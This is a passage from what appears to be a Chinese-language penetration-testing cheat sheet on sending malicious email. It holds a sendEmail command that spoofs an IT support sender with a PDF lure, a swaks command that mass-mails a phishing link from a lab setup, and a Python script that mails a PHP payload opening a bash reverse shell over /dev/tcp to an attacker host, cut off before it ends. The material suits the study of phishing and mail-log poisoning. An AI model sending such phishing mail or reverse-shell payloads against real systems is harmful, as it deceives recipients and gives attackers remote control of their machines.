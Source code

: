     ```shell
    root@kali:~# sendEmail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u Important Upgrade Instructions -a /tmp/BestComputers-UpgradeInstructions.pdf
    Reading message body from STDIN because the '-m' option was not used.
    If you are manually typing in a message:
      - First line must be received within 60 seconds.
      - End manual input with a CTRL-D on its own line.

    IT Dept,

    We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

    Sincerely,
    ```

    ```
    swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
    ```
2.  使用 Python 代码进行发送

    ```shell
    from email.mime.multipart import MIMEMultipart
    from email.mime.text import MIMEText
    import smtplib
    import sys

    lhost = "127.0.0.1"
    lport = 443
    rhost = "192.168.1.1"
    rport = 25 # 489,587

    # create message object instance
    msg = MIMEMultipart()

    # setup the parameters of the message
    password = "" 
    msg['From'] = "attacker@local"
    msg['To'] = "victim@local"
    msg['Subject'] = "This is not a drill!"

    # payload 
    message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

    print("[*] Payload is generated : %s" % message)

    msg.attach(MIMEText(message, 'plain'))
    server = smtplib.SMTP(host=rhost,port=rport)

    if server.noop()[0] != 250:
        print("[-]Connection Error")
        exit()
